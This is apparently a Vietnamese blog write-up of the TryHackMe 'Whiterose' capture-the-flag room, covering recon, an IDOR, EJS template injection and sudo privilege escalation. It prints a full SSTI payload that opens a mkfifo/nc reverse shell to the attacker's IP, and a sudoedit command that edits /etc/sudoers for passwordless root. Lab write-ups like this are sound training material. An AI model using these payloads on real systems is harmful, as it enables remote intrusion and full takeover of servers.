









+++
title = "TryHackMe: Whiterose"
date = 2025-02-10
description = "Walkthrough challenge Whiterose trên TryHackMe — SSTI (EJS), IDOR, privilege escalation via Sudo CVE."
[taxonomies]
tags = ["ctf", "tryhackme", "ssti", "idor", "privilege-escalation", "sudo"]
[extra]
toc = true
+++

Walkthrough challenge **Whiterose** trên TryHackMe — exploit **Server Side Template Injection (SSTI)** trên EJS, **IDOR**, và **privilege escalation** qua Sudo CVE.

<!-- more -->

Keyword: Privilege Escalation using Sudo, SSTI, IDOR

> ⚠️ Đây là challenge đau đầu nhất! Phải restart target machine nhiều lần vì SSTI payload. IP address thay đổi qua các screenshot.

- Machine's IP address: 10.10.2??.???
- Attacker's IP address: 10.4.126.108 (OpenVPN to local)

## 1. Recon

`nmap -sC -sV 10.10.224.84` → 2 port: 22 và 80



Không truy cập được trực tiếp vì domain resolution đến `cyprusbank.thm`. Thêm vào `/etc/hosts`.



Dirsearch không ra gì, nhưng FFUF scan subdomain phát hiện: **admin.cyprusbank.thm**



Thêm subdomain vào `/etc/hosts`, tìm thấy login page → dùng credentials đã cho.

## 2. Exploit IDOR

Tham khảo: [https://portswigger.net/web-security/access-control/idor](https://portswigger.net/web-security/access-control/idor)



URL chứa "c=5". Thử đổi thành "c=0" (exploit IDOR bằng cách thay đổi ID):



Đọc message để tìm admin account. Tại home page, phone number không bị ẩn.

## 3. Exploit SSTI

Tham khảo: [https://portswigger.net/web-security/server-side-template-injection](https://portswigger.net/web-security/server-side-template-injection/exploiting)

Vào settings page, capture request bằng Burp Suite. Xoá password field → phát hiện lỗi EJS template.

Dùng SSTI để RCE theo: [https://eslam.io/posts/ejs-server-side-template-injection-rce/](https://eslam.io/posts/ejs-server-side-template-injection-rce/)



`nc` không hỗ trợ `-e` và `-c`, đổi sang **nc mkfifo reverse shell** từ [revshells.com](https://www.revshells.com/):



Full payload:

```
name=2&settings[view options][outputFunctionName]=x%3bprocess.mainModule.require('child_process').execSync('rm%20%2ftmp%2ff%3bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7cbash%20-i%202%3e%261%7cnc%2010.4.126.108%209090%20%3e%2ftmp%2ff')%3bs
```

Mở `nc` listener trước khi gửi:



## 4. Privilege Escalation từ web đến root

Dùng `sudo -l` và `sudo -v` để kiểm tra.

Exploit Sudo CVE: [https://www.exploit-db.com/exploits/51217](https://www.exploit-db.com/exploits/51217)

```bash
EDITOR="vim -- /etc/sudoers" sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Đổi dòng đầu sudoers thành `web ALL=(ALL) NOPASSWD: ALL` bằng vim editor. Đây là phần **đau đầu nhất** vì:
- Ctrl+C sẽ thoát nc listener
- Vim trên nc cực kỳ khó dùng
- Navigation keys hiển thị encoding

Kết quả:



**Root is pwned!** 🎉

P/s: Font dùng trong Chrome là font từ Honkai: Star Rail 😄
